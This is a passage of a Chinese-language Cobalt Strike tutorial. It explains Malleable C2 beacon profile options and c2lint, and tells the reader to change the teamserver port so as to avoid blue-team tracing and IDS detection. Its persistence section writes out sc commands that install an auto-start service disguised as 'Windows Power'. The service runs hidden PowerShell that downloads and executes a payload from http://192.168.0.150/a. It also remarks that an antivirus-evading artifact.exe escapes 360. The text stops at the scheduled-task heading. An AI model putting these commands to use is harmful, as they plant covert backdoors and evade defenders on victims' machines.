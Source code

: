 profiles的参数讲解

```
选项关键词
jitter控制beacon的不稳定的抖动时间
maxdns 控制dns的最大访问次数
sleeptime 控制beacon的睡眠间隔时间
spawnto 指定派生的名字
uri 请求的url
useragent  每次攻击时的浏览器头信息
除了设置Malleable C2的选项外，还能增加任意的http头信息增加到beacon中进行交互通信。
增加任意指定的参数的命令
header "header" "value"
parameter "key" "value"
```

**c2lint的使用**

检测他的配置文件是否是正确的。

参考文档：

https://github.com/rsmudge/Malleable-C2-Profiles

https://blog.cobaltstrike.com/2018/06/04/broken-promises-and-malleable-c2-profiles/

https://www.cobaltstrike.com/help-malleable-c2

# 十四  Aggressor-scripts的使用

修改默认端口

就是在teamserver的启动程序中，将`-port`的参数改成想要的端口即可

修改端口 默认的端口可能会被蓝队溯源 得到ip个端口 或者被ids检测到。

# 十五 可持续后门的使用

1.服务自动启动（会被防火墙拦截）

```
sc create "Windows Power" binpath= "cmd /c start powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring(' http://192.168.0.150:80/a'))\""
sc config "Windows Power" start= auto
sc description "Windows Power" "windows auto service" 增加描述
net start "Windows Power"
sc delete "Windows Power"
这个程序如果免杀的话，360就不会拦截
sc create "server power" binpath= "C:\Users\Administrator\Desktop\artifact.exe"
sc description "server power" "description" 设置服务的描述字符串
sc config "server power" start= auto 设置这个服务为自动启动
net start "server power" 启动服务
```

2.计划任务
